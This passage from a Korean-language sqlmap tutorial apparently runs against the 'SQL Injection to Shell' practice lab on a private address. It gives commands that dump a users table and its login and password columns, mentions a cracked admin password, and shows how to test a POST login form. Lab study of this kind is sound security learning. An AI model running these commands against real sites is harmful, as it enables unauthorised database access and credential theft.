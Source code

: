 

#### 1.4. 테이블 내용 덤프

users테이블의 모든 내용들을 덤프해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --dump
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/7.png){:.border.rounded} 

user는 `admin` 계정이 존재하고 패스워드는 hash값으로 되어있지만, 해당 해쉬값이 P4ssw0rd 임을 알려준다.



만약 수많은 컬럼들이 존재할 때 특정 컬럼만 덤프하고 싶을 것이다. (login, password 칼럼만 덤프)

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users -C "login,password" --dump
```





-----



### 2. POST 방식 입력 값 점검

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/8.png){:.border.rounded}

위 그림은 SQL Injection to Shell 훈련장의 관리자 페이지 접속화면이다. ID/PW를 이용하여 로그인하는 페이지이며 POST방식으로 구현되어 있다.

POST방식일 경우 `--data` 옵션을 이용하면된다.

```
sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"
```

-----

